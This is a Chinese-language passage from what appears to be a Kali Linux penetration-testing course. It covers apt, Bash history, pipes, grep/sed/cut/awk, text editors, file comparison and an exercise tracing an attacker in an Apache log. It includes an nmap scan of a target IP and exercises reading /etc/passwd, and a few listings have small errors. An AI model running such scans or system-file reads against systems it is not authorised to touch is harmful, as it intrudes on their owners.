`APT` 是一组有助于管理基于 Debian 系统上的包或应用程序的工具。由于 Kali 基于 Debian，[^45] 我们可以使用 `APT` 安装和移除应用程序，更新包，甚至升级整个系统。`APT` 的魔力在于它是一个完整的包管理系统，通过递归满足其要求和依赖项来安装或移除请求的包。

## 2.6.1 apt update

有关 `APT` 包的信息在本地缓存，以加速涉及查询 `APT` 数据库的任何操作。因此，更新可用包的列表（包括与其版本、描述等相关的信息）总是一个良好的实践。我们可以按照以下方式使用 `apt update` 命令来完成此操作：

```bash
kali@kali:~$ sudo apt update
Hit:1 http://kali.mirror.globo.tech/kali kali-rolling InRelease
Reading package lists... Done
Building dependency tree
Reading state information... Done
699 packages can be upgraded. Run 'apt list --upgradable' to see them.
```

*Listing 22 – 使用 apt update 更新 Kali 中的包列表*

## 2.6.2 apt upgrade

在更新 `APT` 数据库后，我们可以使用 `apt upgrade` 命令将已安装的包和核心系统升级到最新版本。

若要升级单个包，请在 `apt upgrade` 命令后添加包名称，例如 `apt upgrade metasploit-framework`。

> *虽然你可以随时升级 Kali Linux 安装，但建议在做出任何更改之前对处于清洁状态的虚拟机进行快照。这样做有两个主要好处。首先，它确保你拥有一个经过测试的构建快照，它将适用于所有练习；其次，如果你遇到任何问题并需要联系我们的支持团队，他们将知道你所使用的工具版本及其行为。对于实际的*

[^45]: (Debian, 2019), https://www.debian.org/

## 2.6.3 apt-cache search 和 apt show

`apt-cache search` 命令会显示内部缓存软件包数据库中的大量信息。例如，假设我们想通过 `APT` 安装 `pure-ftpd` 应用程序。我们要做的第一件事是确定该应用程序是否存在于 Kali Linux 软件仓库中。为此，我们需要在命令行中传递搜索词：

```
kali@kali:~$ apt-cache search pure-ftpd
mysqmail-pure-ftpd-logger - real-time logging system for MySQL - Pure-FTPd traffic-logger
pure-ftpd - Secure and efficient FTP server
pure-ftpd-common - Pure-FTPd FTP server (Common Files)
pure-ftpd-ldap - Secure and efficient FTP server with LDAP user authentication
pure-ftpd-mysql - Secure and efficient FTP server with MySQL user authentication
pure-ftpd-postgresql - Secure and efficient FTP server with PostgreSQL user authentication
resource-agents - Cluster Resource Agents
```

*列表 23 - 使用 apt-cache search 搜索 pure-ftpd 应用程序*

上述输出表明该应用程序存在于仓库中。如果需要同步安装，还有几个用于 `pure-ftpd` 应用程序的认证扩展可供使用。

有趣的是，`resource-agents` 软件包出现在我们的搜索结果中，尽管其名称不包含 “pure-ftpd” 关键字。背后的原因是 `apt-cache search` 会在软件包的描述中寻找请求的关键字，而不是在软件包名称本身中寻找。

为了确认 `resource-agents` 软件包的描述确实包含 “pure-ftpd” 关键字，请将软件包名称传递给 `apt show`，如下所示：

```
kali@kali:~$ apt show resource-agents
Package: resource-agents
Version: 1:4.2.0-2
...
Description: Cluster Resource Agents
This package contains cluster resource agents (RAs) compliant with the Open
Cluster Framework (OCF) specification, used to interface with various services
in a High Availability environment managed by the Pacemaker resource manager.
.
Agents included:
AoTarget: Manages ATA-over-Ethernet (AoE) target exports
AudibleAlarm: Emits audible beeps at a configurable interval
...
NodeUtilization: Node Utilization
Pure-FTPd: Manages a Pure-FTPd FTP server instance
Raid1: Manages Linux software RAID (MD) devices on shared storage
...
```

*列表 24 - 使用 apt show 查看与 resource-agents 软件包相关的信息*


在上述输出中，`apt show`澄清了为什么 resource-agents 应用程序会神秘地出现在之前针对 pure-ftpd 的搜索中。

## 2.6.4 apt install

可以使用 `apt install` 命令将软件包添加到系统中，方法是在 `apt install` 后跟上软件包名称。让我们继续进行 pure-ftpd 的安装：

```
kali@kali:~$ sudo apt install pure-ftpd
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following additional packages will be installed:
  pure-ftpd-common
The following NEW packages will be installed:
  pure-ftpd pure-ftpd-common
0 upgraded, 2 newly installed, 0 to remove and 0 not upgraded.
Need to get 309 kB of archives.
After this operation, 880 kB of additional disk space will be used.
Do you want to continue? [Y/n] y
Get:1 http://kali.mirror.globo.tech/kali kali-rolling/main amd64 pure-ftpd-common all
Get:2 http://kali.mirror.globo.tech/kali kali-rolling/main amd64 pure-ftpd amd64 1.0.4
Fetched 309 kB in 4s (86.4 kB/s)
Preconfiguring packages ...
...
```


同样地，我们可以使用命令 `apt remove --purge` 来移除软件包。

## 2.6.5 apt remove --purge

`apt remove --purge` 命令会完全从 Kali 中移除软件包。需要注意的是，使用 `apt remove` 移除软件包会删除所有软件包数据，但通常会留下较小的（已修改的）用户配置文件，以防移除操作是误操作。添加 `--purge` 选项会移除所有残留文件。

```
kali@kali:~$ sudo apt remove --purge pure-ftpd
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following package was automatically installed and is no longer required:
  pure-ftpd-common
Use 'sudo apt autoremove' to remove it.
The following packages will be REMOVED:
  pure-ftpd
0 upgraded, 0 newly installed, 1 to remove and 0 not upgraded.
After this operation, 581 kB disk space will be freed.
Do you want to continue? [Y/n] y
(Reading database ... 388024 files and directories currently installed.)
Removing pure-ftpd (1.0.47-3) ...
Cannot find cached rlinetd's config files for service ftp, ignoring remove request
Processing triggers for man-db (2.8.5-2) ...
(Reading database ... 388011 files and directories currently installed.)
Purging configuration files for pure-ftpd (1.0.47-3) ...
Processing triggers for systemd (240-6) ...
```


太棒了！现在你已经能够在 Kali Linux 中搜索、安装和移除工具了。让我们探索一下本模块中的最后一个命令：`dpkg`。

## 2.6.6 dpkg

`dpkg` 是用于安装软件包的核心工具，既可以直接使用，也可以通过 APT 间接使用。它也是离线操作时的首选工具，因为它不需要互联网连接。请注意，`dpkg` 不会安装软件包可能依赖的任何项。要使用 `dpkg` 安装软件包，请提供 `-i` 或 `--install` 选项以及 `.deb` 软件包文件的路径。这假设要安装的软件的 `.deb` 文件已预先下载或通过其他方式获取。

```
kali@kali:~$ sudo dpkg -i man-db_2.7.0.2-5_amd64.deb
(Reading database ... 86425 files and directories currently installed.)
Preparing to unpack man-db_2.7.0.2-5_amd64.deb ...
Unpacking man-db (2.7.0.2-5) over (2.7.0.2-4) ...
Setting up man-db (2.7.0.2-5) ...
Updating database of manual pages ...
Processing triggers for mime-support (3.58) ...
...
```

*列表 27 - 使用 dpkg -i 安装 man-db 应用程序*

### 2.6.6.1 练习

*（这些练习不需要报告）*

- 1. 为你的 Kali 虚拟机创建一个快照（可选）。
- 2. 搜索一个当前未安装在 Kali 中的工具。
- 3. 安装该工具。
- 4. 移除该工具。
- 5. 将 Kali 虚拟机恢复到之前创建的快照（可选）。

## 2.7 总结

在本模块中，我们为接下来的模块奠定了基础。我们探索了面向新用户的技巧和窍门，并回顾了一些高级用户可能会欣赏的标准。

鼓励所有学员复习 Kali 培训网站上的免费在线培训。[⁴⁶](https://kali.training) 该网站包括 *Kali Linux Revealed* 书籍、旨在测试你理解能力的练习、专门的支持论坛等。这些免费资源为所有技能水平的用户提供了宝贵的见解，并作为本课程中展示的培训内容的优秀补充。

⁴⁶ (Offensive Security, 2019), https://kali.training

## 3. 命令行乐趣

在本模块中，我们将初步了解几个流行的 Linux 命令行程序。如有需要，请随时参考 Kali Linux 培训网站[⁴⁷](https://kali.training/lessons/introduction/) 以进行复习或更深入的讨论。

### 3.1 Bash 环境

Bash[⁴⁸](https://en.wikipedia.org/wiki/Bash_(Unix_shell)) 是一种与 sh 兼容的 shell，允许我们在终端窗口中运行复杂命令并执行不同的任务。它融合了 KornShell (ksh)[⁴⁹](https://en.wikipedia.org/wiki/KornShell) 和 C shell (csh)[⁵⁰](https://en.wikipedia.org/wiki/C_shell) 中的有用功能。

#### 3.1.1 环境变量

打开终端窗口时，会初始化一个新的 Bash 进程，该进程拥有自己的环境变量。这些变量是各种设置的全局存储形式，由该终端会话期间运行的任何应用程序继承。最常被引用的环境变量之一是 `$PATH`，它是一个由冒号分隔的目录路径列表，每当在没有完整路径的情况下运行命令时，Bash 都会搜索这些路径。

我们可以使用 `echo` 命令查看特定环境变量的内容，后跟 "$" 字符和环境变量名称。例如，让我们看看 `$PATH` 环境变量的内容：

```
kali@kali:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

列表 28 - 使用 echo 显示 PATH 环境变量


其他一些有用的环境变量包括 `$USER`、`$PWD` 和 `$HOME`，它们分别保存当前终端用户的用户名、当前工作目录和主目录的值：

```
kali@kali:~$ echo $USER
kali

kali@kali:~$ echo $PWD
/home/kali

kali@kali:~$ echo $HOME
/home/kali
```

列表 29 - 使用 echo 显示 USER、PWD 和 HOME 环境变量

可以使用 `export` 命令定义环境变量。例如，如果我们正在扫描目标，不想反复输入系统的 IP 地址，我们可以快速将其分配给一个环境变量并使用它：

```
kali@kali:~$ export IP=192.168.1.242
kali@kali:~$ nmap $IP
...[output]
```

列表 30 - 导出并使用 IP 变量执行主机扫描

[⁴⁷](https://kali.training/lessons/introduction/) (Offensive Security, 2019), https://kali.training/lessons/introduction/

[⁴⁸](https://en.wikipedia.org/wiki/Bash_(Unix_shell)) (Wikipedia, 2019), https://en.wikipedia.org/wiki/Bash_(Unix_shell)

[⁴⁹](https://en.wikipedia.org/wiki/KornShell) (Wikipedia, 2019), https://en.wikipedia.org/wiki/KornShell

[⁵⁰](https://en.wikipedia.org/wiki/C_shell) (Wikipedia, 2019), https://en.wikipedia.org/wiki/C_shell

## 3.1.2 Tab 补全

Bash shell 的自动补全功能允许我们使用 `[Tab]` 键来补全文件名和目录路径。这个功能极大地提高了 shell 的使用效率，以至于在其他 shell 中缺少该功能时会被强烈怀念。让我们看看在 kali 用户的家目录中它是如何工作的。我们将通过输入以下命令开始：

```bash
kali@kali:~$ ls D[TAB]
Desktop/  Documents/  Downloads/

kali@kali:~$ ls De[TAB]sktop/

kali@kali:~$ ls Desktop/
```

*清单 33 - 展示 Bash 中的 Tab 补全*

当我们在“D”之后第一次按下 `[Tab]` 键时，Bash shell 提示以该字母开头的三个目录，然后呈现我们部分完成的命令供我们继续。由于我们决定指定“Desktop”，接着输入“e”并第二次按下 `[Tab]` 键。此时，Bash shell 神奇地自动补全了单词“Desktop”的剩余部分，因为这是唯一以“De”开头的选项。有关 Tab 补全的更多信息可以在 Debian 网站上找到。51, 52

## 3.1.3 Bash 历史技巧

在进行渗透测试时，记录已输入到 shell 中的命令非常重要。幸运的是，Bash 会维护已输入命令的历史记录，可以使用 `history` 命令显示该记录。53

```bash
kali@kali:~$ history
1  cat /etc/lsb-release
2  clear
3  history
```

*清单 34 - history 命令*

与其重新键入历史中的长命令，我们可以利用 `历史扩展` 功能。例如，回顾清单 34，我们的历史中有三条命令，每条命令前都有一个行号。要重新运行第一条命令，我们只需输入 `!` 字符后跟行号，在本例中为 `!1`，以执行 `cat /etc/lsb-release` 命令。

```bash
kali@kali:~$ !1
cat /etc/lsb-release
DISTRIB_ID=Kali
DISTRIB_RELEASE=kali-rolling
DISTRIB_CODENAME=kali-rolling
DISTRIB_DESCRIPTION="Kali GNU/Linux Rolling"
```

*清单 35 - Bash 历史扩展的实际操作*

另一个有用的历史快捷方式是 `!!`，它会重复在终端会话期间执行的最后一个命令：

```bash
kali@kali:~$ sudo systemctl restart apache2

kali@kali:~$ !!
sudo systemctl restart apache2
```

*清单 36 - 轻松重复上一个命令*

默认情况下，命令历史保存在用户家目录中的 `.bash_history` 文件中。两个环境变量控制历史大小：`HISTSIZE` 和 `HISTFILESIZE`。

`HISTSIZE` 控制当前会话中存储在内存中的命令数量，`HISTFILESIZE` 配置保留在历史文件中的命令数量。可以根据需要编辑这些变量，并将其保存到稍后将探讨的 Bash 配置文件（`.bashrc`）中。

探索 Bash 历史的最简单方法之一是直接在命令行提示符处操作。我们可以使用一些有用的键盘快捷键浏览历史，其中最常见的两个是：

- `Up` 箭头 - 在历史中向前滚动
- `Down` 箭头 - 在历史中向后滚动

最后但同样重要的是，按住 `Ctrl` 并按下 `R` 将调用 `反向搜索` 功能。输入一个字母，例如 `c`，你会得到历史中包含字母 "c" 的最近命令的匹配项。继续输入以缩小匹配范围，找到所需的命令后，按 `Return` 执行它。

```bash
kali@kali:~$ [CTRL-R]c
(reverse-i-search)`ca': cat /etc/lsb-release
```

*清单 37 - 探索反向搜索功能*

### 练习

1. 检查你的 bash 历史并使用 `历史扩展` 重新运行其中的一个命令。
2. 执行你选择的各个命令，并尝试通过快捷键以及 `反向搜索` 功能浏览历史。

## 3.2 管道与重定向

每个从命令行运行的程序都有三个数据流与其相连，作为与外部环境通信的通道。这些流的定义如下：

| 流名称 | 描述 |
| :--- | :--- |
| 标准输入 (STDIN) | 输入到程序的数据 |
| 标准输出 (STDOUT) | 程序的输出（默认为终端） |
| 标准错误 (STDERR) | 错误消息（默认为终端） |

*表 3 - 与命令行程序相连的数据流*

管道（使用 `|` 运算符）和重定向（使用 `>` 和 `<` 运算符）将这些数据流在程序和文件之间连接起来，以适应几乎无限的使用场景。

### 3.2.1 重定向到新文件

在之前的命令示例中，输出打印在屏幕上。这在大多数情况下很方便，但我们可以使用 `>` 运算符将输出保存到文件中，以便将来参考或操作：

```bash
kali@kali:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos

kali@kali:~$ echo "test"
test

kali@kali:~$ echo "test" > redirection_test.txt

kali@kali:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  redirection_test.txt  Templates

kali@kali:~$ cat redirection_test.txt
test

kali@kali:~$ echo "Kali Linux is an open source project" > redirection_test.txt

kali@kali:~$ cat redirection_test.txt
Kali Linux is an open source project
```

*清单 38 - 将输出重定向到文件*

如清单 38 所示，如果我们将输出重定向到一个不存在的文件，该文件将自动创建。但是，如果我们把输出保存到一个已存在的文件，该文件的内容将被替换。小心重定向！没有撤销功能！

### 3.2.2 重定向到现有文件

要向现有文件追加数据（而不是覆盖文件），请使用 `>>` 运算符。

```bash
kali@kali:~$ echo "that is maintained and funded by Offensive Security" >> redirection_test.txt

kali@kali:~$ cat redirection_test.txt
Kali Linux is an open source project that is maintained and funded by Offensive Security
```


### *清单 39 - 将输出重定向到现有文件*

### 3.2.3 从文件重定向

你可能已经猜到，我们可以使用 `<` 运算符将数据“反向”发送。在以下示例中，我们将上一节生成的文件中的数据重定向给 `wc` 命令的 `STDIN`。让我们用 `wc -m` 试试，它统计文件中的字符数：

```bash
kali@kali:~$ wc -m < redirection_test.txt
89
```

*清单 40 - 使用 < 运算符为 wc 命令提供数据*

请注意，这实际上将文件的内容“连接”到了 `wc -m` 命令的标准输入。

### 3.2.4 重定向 STDERR

根据 POSIX 规范<sup>54</sup>，`STDIN`、`STDOUT` 和 `STDERR` 的文件描述符<sup>55</sup> 分别定义为 0、1 和 2。这些数字很重要，因为它们可以在执行或连接不同命令时从命令行操作相应的数据流。

为了更好地理解文件描述符编号的工作方式，请考虑以下重定向标准错误（`STDERR`）的示例：

```bash
kali@kali:~$ ls .
Desktop  Documents  Downloads  Music  Pictures  Public  redirection_test.txt  Templates

kali@kali:~$ ls ./test
ls: cannot access './test': No such file or directory

kali@kali:~$ ls ./test 2>error.txt

kali@kali:~$ cat error.txt
ls: cannot access './test': No such file or directory
```

*清单 41 - 重定向 STDERR*

---

<sup>51</sup> (Debian-Administration, 2005), https://debian-administration.org/article/316/An_introduction_to_tab_completion,_part_1

<sup>52</sup> (Debian-Administration, 2005), https://debian-administration.org/article/317/An_introduction_to_tab_completion,_part_2

<sup>53</sup> (die.net, 2002), https://linux.die.net/man/3/history

<sup>54</sup> (Wikipedia, 2019), https://en.wikipedia.org/wiki/POSIX

<sup>55</sup> (Wikipedia, 2019), https://en.wikipedia.org/wiki/File_descriptor

## 3.2.5 管道

继续之前使用 `wc` 命令的示例，让我们来看看如何将一个命令的输出重定向为另一个命令的输入。考虑以下示例：

```
kali@kali:-$ cat error.txt
ls: cannot access '/test': No such file or directory

kali@kali:-$ cat error.txt | wc -m
53

kali@kali:-$ cat error.txt | wc -m > count.txt

kali@kali:-$ cat count.txt
53
```

在列表 42 中，我们使用了管道符号 (`|`) 将 `cat` 命令的输出重定向到 `wc` 命令的输入中。这个概念可能看起来微不足道，但将不同的命令通过管道连接在一起是一种强大的工具，可用于处理各种数据。

### 3.2.5.1 练习

- 1. 在你的 Kali Linux 系统上，结合使用 `cat` 命令和 `sort` 命令来重新排序 `/etc/passwd` 文件的内容。
- 2. 将上一个练习的输出重定向到你主目录中的任意文件。

## 3.3 文本搜索与操作

在本节中，我们将通过介绍几个命令来提高文件和文本处理的效率：`grep`、`sed`、`cut` 和 `awk`。其中一些工具的高级用法需要对正则表达式 (*rex*) 的运作方式有很好的理解。正则表达式是一种特殊的文本字符串，用于描述搜索模式。如果你对正则表达式不熟悉，请在继续之前访问以下网址：

- http://www.regex.com/
- http://www.regular-expressions.info/

### 3.3.1 grep

简而言之，`grep`<sup>56</sup> 在文本文件中搜索给定正则表达式出现的地方，并将包含匹配项的任何行输出到标准输出，通常是终端屏幕。一些最常用的开关包括用于递归搜索的 `-r` 和用于忽略文本大小写的 `-i`。考虑以下示例：

```
kali@kali:~$ ls -la /usr/bin | grep zip
-rw-r-xr-x 3 root root 34480 Jan 29 2017 bunzip2
-rwxr-xr-x 3 root root 34480 Jan 29 2017 bzip2
-rw-r-xr-x 1 root root 13864 Jan 29 2017 bzip2recover
-rwxr-xr-x 2 root root 2301 Mar 14 2016 gunzip
-rwxr-xr-x 1 root root 105172 Mar 14 2016 gzip
```

> 列表 43 · 在 `/usr/bin` 中搜索包含 “zip” 的任何文件

在列表 43 中，我们使用 `ls` 列出了 `/usr/bin` 目录中的所有文件，并将输出管道传输到 `grep` 命令，该命令搜索包含字符串 “zip” 的任何行。理解 `grep` 工具及其使用场景可能会极其有用。

<sup>56</sup> (die.net, 2010). https://linux.die.net/man/1/grep

### 3.3.2 sed

`sed`<sup>57</sup> 是一个强大的流编辑器。它也非常复杂，因此我们在这里只会浅尝辄止。从非常高层的角度来看，`sed` 在文本流（一组特定文件或标准输出）上执行文本编辑。让我们看一个例子：

```
kali@kali:~$ echo "I need to try hard" | sed 's/hard/harder/'
I need to try harder
```

> 列表 44 · 在输出流中替换单词

在列表 44 中，我们使用 `echo` 命令创建了一个文本流，然后将其管道传输到 `sed` 中以将单词 “hard” 替换为 “harder”。请注意，默认情况下，输出已自动重定向到标准输出。

### 3.3.3 cut

`cut`<sup>58</sup> 命令很简单，但经常非常有用。它用于从行中提取文本部分并将其输出到标准输出。一些最常用的开关包括 `-f` 用于我们要切割的字段号，以及 `-d` 用于字段分隔符。

```
kali@kali:~$ echo "I hack binaries,web apps,mobile apps, and just about anything else" | cut -f 2 -d ","
web apps
```

> 列表 45 · 使用 cut 从 echo 命令输出中提取字段

在列表 45 中，我们回显了一行文本并将其管道传输到 `cut` 命令，以逗号 (`,`) 作为字段分隔符提取第二个字段。相同的命令也可以用于文本文件中的行，如下所示，其中使用 `:` 作为分隔符并获取第一个字段来从 `/etc/passwd` 中提取用户列表：

```
kali@kali:~$ cut -d ":" -f 1 /etc/passwd
root
daemon
bin
sys
sync
games
...
```

> 列表 46 - 使用 cut 从 `/etc/passwd` 中提取用户名

<sup>57</sup> (GNU, 2018). https://www.gnu.org/software/sed/manual/sed.html

<sup>58</sup> (die.net, 2010). https://linux.die.net/man/1/cut

### 3.3.4 awk

`AWK`<sup>59</sup> 是一种专为文本处理设计的编程语言，通常用作数据提取和报告工具。它也极其强大且可能相当复杂，因此我们在这里只会浅尝辄止。`awk`<sup>60</sup> 中常用的开关是 `-F`，它是字段分隔符，以及 `print` 命令，它输出结果文本。

```
kali@kali:~$ echo "hello:there:friend" | awk -F ":" '{print $1, $3}'
hello friend
```

> 列表 47 - 在 awk 中使用多字符分隔符从流中提取字段


在列表 47 中，我们回显了一行并将其管道传输到 `awk` 以使用 `:` 作为字段分隔符提取第一个 `($1)` 和第三个 `($3)` 字段。我们使用的 `cut` 和 `awk` 示例之间最显著的区别在于，`cut` 只能接受单个字符作为字段分隔符，而 `awk` 如列表 47 所示，具有更大的灵活性。作为一般经验法则，当你的命令开始涉及多个 `cut` 操作时，你可能需要考虑切换到 `awk`。

- 59 (Wikipedia, 2019), https://en.wikipedia.org/wiki/AWK
- 60 (GNU, 2019), https://www.gnu.org/software/gawk/manual/gawk.html

### 3.3.5 实用示例

让我们来看一个将我们之前探索过的许多命令结合在一起的实用示例。

我们提供了一个 Apache HTTP 服务器日志 (`http://www.offensive-security.com/pwk-files/access_log.txt.gz`)，其中包含攻击的证据。我们的任务是使用 Bash 命令检查该文件并发现各种信息，例如攻击者是谁以及服务器上确切发生了什么。

首先，我们将使用 `head` 和 `wc` 命令快速查看日志文件以了解其结构。`head` 命令显示文件的前 10 行，而 `wc` 命令配合 `-l` 选项显示文件中的总行数。

```
kali@kali:~$ gunzip access_log.txt.gz
kali@kali:~$ mv access_log.txt access.log

kali@kali:~$ head access.log
201.21.152.44 -- [25/Apr/2013:14:05:35 -0700] "GET /favicon.ico HTTP/1.1" 404 89 "-"
"Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.31 (KHTML, like Gecko) Chrome/26.0.1410.64 Safari/537.31" "random-site.com"
70.194.129.34 -- [25/Apr/2013:14:10:48 -0700] "GET /include/jquery.jshowoff.min.js HTTP/1.1" 200 2553 "http://www.random-site.com/" "Mozilla/5.0 (Linux; U; Android 4.1.2; en-us; SCH-I535 Build/JZ054K) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Mobile Safari/534.30" "www.random-site.com"

kali@kali:~$ wc -l access.log
1173 access.log
```

> 列表 48 - 查看 `access.log` 文件以了解其结构

请注意，该日志文件是基于文本的，包含由空格分隔的不同字段（IP 地址、时间戳、HTTP 请求等）。这是一个完美的“*grep 友好*”文件，适用于我们迄今介绍的所有工具。我们将首先搜索发送到服务器的 HTTP 请求中记录在此日志文件中的所有 IP 地址。我们将通过管道传输 `cat` 命令的输出到 `cut` 和 `sort` 命令来实现这一点。这可能会给我们关于需要处理的潜在攻击者数量的线索。

```
kali@kali:~$ cat access.log | cut -d " " -f 1 | sort -u
201.21.152.44
208.115.113.91
208.54.80.244
208.68.234.99
70.194.129.34
72.133.47.242
88.112.192.2
98.238.13.253
99.127.177.95
```

> 列表 49 - 管道命令以从文件中获取所需信息

我们可以看到日志文件中记录了不到十个 IP 地址，尽管这仍然没有告诉我们任何关于攻击者的信息。接下来，我们使用 `uniq` 和 `sort` 来显示唯一行，进一步细化我们的输出，并根据每个 IP 地址访问服务器的次数对数据进行排序。`uniq` 的 `-c` 选项会在输出行前添加出现次数。

```
kali@kali:~$ cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn
     1038 208.68.234.99
       59 208.115.113.91
       22 208.54.80.244
       21 99.127.177.95
        8 70.194.129.34
        1 201.21.152.44
```

> 列表 50 - 使用 `uniq` 命令获取文件中每个 IP 地址的计数

有几个 IP 地址脱颖而出，但我们首先关注访问频率最高的地址。为了过滤出 `208.68.234.99` 地址并显示及计数由该 IP 请求的资源，我们可以使用以下序列：

```
kali@kali:~$ cat access.log | grep '208.68.234.99' | cut -d """ -f 2 | uniq -c
     1038 GET //admin HTTP/1.1
```

> 列表 51 - 探索特定 IP 地址访问的资源

从输出结果来看，IP 地址 `208.68.234.99` 似乎专门在访问 `/admin` 目录。让我们进一步检查。

```
kali@kali:~$ cat access.log | grep '208.68.234.99' | grep '/admin ' | sort -u
208.68.234.99 - - [22/Apr/2013:07:51:20 -0500] "GET //admin HTTP/1.1" 401 742 "-" "Teh Forenst Lobster"
208.68.234.99 - admin [22/Apr/2013:07:51:25 -0500] "GET //admin HTTP/1.1" 200 575 "-"
```

#### 3.3.5.1 练习

- 1. 使用 `/etc/passwd`，提取你的 Kali 机器上所有 shell 设置为 `/bin/false` 的用户的用户字段和主目录字段。请务必使用 Bash 单行命令将输出打印到屏幕上。输出应类似于下方的清单 53：

```bash
kali@kali:~$ YOUR COMMAND HERE...
The user mysql home directory is /nonexistent
The user Debian-snap home directory is /var/lib/snmp
The user speech-dispatcher home directory is /var/run/speech-dispatcher
The user Debian-gdm home directory is /var/lib/gdm3
```

清单 53 - shell 为 `/bin/false` 的用户的主目录

- 2. 将 `/etc/passwd` 文件复制到你的主目录（`/home/kali`）。
- 3. 使用 `cat` 编写一个单行命令，打印 `/kali/passwd` 的输出，并将所有 “Gnome Display Manager” 字符串替换为 “GDM”。

## 3.4 从命令行编辑文件

接下来，让我们看看命令 shell 环境中的文件编辑。这是一个极其重要的 Linux 技能，尤其是在渗透测试过程中，如果你恰好获得了类 Unix 操作系统的访问权限时更是如此。

虽然像 `gedit` 和 `leafpad` 这样的文本编辑器因其图形用户界面可能看起来更美观，但我们将专注于基于文本的终端编辑器，它们强调速度和通用性。

在文本编辑器方面，每个人似乎都有自己的偏好，但我们将介绍两种最常见选项的基本用法：`nano` 和 `vi`。

### 3.4.1 nano

`nano` 是最易用的文本编辑器之一。要打开一个文件并开始编辑，只需运行 `nano`，并将文件名作为可选参数传入：

```bash
kali@kali:~$ nano intro_to_nano.txt
```

清单 54 - 使用 `nano` 编辑器打开文件

文件打开后，我们可以立即开始对文件进行任何必要的更改，就像在图形编辑器中一样。如图 5 所示，命令菜单位于屏幕底部。需要记住的一些最常用命令包括：`Ctrl+O` 将更改写入文件，`Ctrl+K` 剪切当前行，`Ctrl+U` 取消剪切一行并将其粘贴到光标位置，`Ctrl+W` 进行搜索，以及 `Ctrl+X` 退出。



有关 `nano` 的更多信息，请参阅其在线文档。

### 3.4.2 vi


vi 是一个功能极其强大的文本编辑器，特别是在自动化重复任务方面，速度极快。然而，它的学习曲线相对较陡峭，远不如 Nano 简单易用。由于其复杂性，我们将只涵盖最基本的内容。与 nano 一样，要编辑文件，只需将其名称作为参数传递给 `vi`：

```bash
kali@kali:~$ vi intro_to_vi.txt
```

清单 55 - 使用 vi 编辑器打开文件

文件打开后，启用 `插入文本模式` 开始输入。要做到这一点，按 `i` 键并开始输入。

要禁用 `插入文本模式` 并返回到 `命令模式`，请按 `Esc` 键。在 `命令模式` 中，使用 `dd` 删除当前行，`yy` 复制当前行，`p` 粘贴剪贴板内容，`x` 删除当前字符，`:w` 将当前文件写入磁盘并保留在 vi 中，`:q!` 不将文件写入磁盘直接退出，最后 `:wq` 保存并退出。



图 6：使用 vi 编辑文件

由于 vi 使用起来似乎非常笨拙，许多用户回避它。然而，从渗透测试人员的角度来看，在经验丰富的用户手中，vi 可以节省大量时间，并且 vi 安装在每个符合 POSIX 标准的系统上。

请随意自行深入探索；vi 非常强大。更多信息，请参阅以下网址：

- https://en.wikibooks.org/wiki/Learning_the_vi_Editor/vi_Reference
- https://www.debian.org/doc/manuals/debian-tutorial/ch-editor.html

## 3.5 比较文件

文件比较可能看起来无关紧要，但系统管理员、网络工程师、渗透测试人员、IT 支持技术人员以及许多其他技术导向的专业人士经常依赖这项技能。

在本节中，我们将看看一些可以帮助简化这一通常繁琐但回报丰厚的文件比较过程的工具。

### 3.5.1 comm

`comm` 命令比较两个文本文件，显示每个文件独有的行以及它们共有的行。它输出三列空格分隔的列：第一列包含仅存在于第一个文件或参数中的行；第二列包含仅存在于第二个文件或参数中的行；第三列包含两个文件共有的行。`-n` 开关，其中 “n” 是 1、2 或 3，可以根据需要用来抑制一列或多列。让我们看一个例子：

```bash
kali@kali:~$ cat scan-a.txt
192.168.1.1
192.168.1.2
192.168.1.3
192.168.1.4
192.168.1.5

kali@kali:~$ cat scan-b.txt
192.168.1.1
192.168.1.3
192.168.1.4
192.168.1.5
192.168.1.6

kali@kali:~$ comm scan-a.txt scan-b.txt
               192.168.1.1
192.168.1.2            192.168.1.3
                       192.168.1.4
                       192.168.1.5
192.168.1.6

kali@kali:~$ comm -12 scan-a.txt scan-b.txt
192.168.1.1
192.168.1.3
192.168.1.4
192.168.1.5
```

清单 56 - 使用 comm 比较文件

在第一个示例中，`comm` 分别显示了 `scan-a.txt` 中的唯一行、`scan-b.txt` 中的唯一行以及两个文件中都找到的行。在第二个示例中，由于我们抑制了第一列和第二列，`comm -12` 仅显示在两个文件中都找到的行。

### 3.5.2 diff

`diff` 命令用于检测文件之间的差异，类似于 `comm` 命令。然而，`diff` 要复杂得多，并支持许多输出格式。其中最受欢迎的两种格式包括 `上下文格式` `-c` 和 `统一格式` `-u`。清单 57 展示了这两种格式之间的区别：

```diff
kali@kali:~$ diff -c scan-a.txt scan-b.txt
*** scan-a.txt  2018-02-07 14:46:21.557861848 -0700
--- scan-b.txt  2018-02-07 14:46:44.275002421 -0700
***************
*** 1,5 ****
 192.168.1.1
- 192.168.1.2
 192.168.1.3
 192.168.1.4
 192.168.1.5
--- 1,5 ----
 192.168.1.1
 192.168.1.3
 192.168.1.4
 192.168.1.5
+ 192.168.1.6

kali@kali:~$ diff -u scan-a.txt scan-b.txt
--- scan-a.txt 2018-02-07 14:46:21.557861848 -0700
+++ scan-b.txt 2018-02-07 14:46:44.275002421 -0700
@@ -1,5 +1,5 @@
192.168.1.1
-192.168.1.2
192.168.1.3
192.168.1.4
192.168.1.5
+192.168.1.6
```

清单 57 - 使用 diff 比较文件

输出使用 "-" 指示符表示该行出现在第一个文件中，但不出现在第二个文件中。相反，"+" 指示符表示该行出现在第二个文件中，但不出现在第一个文件中。

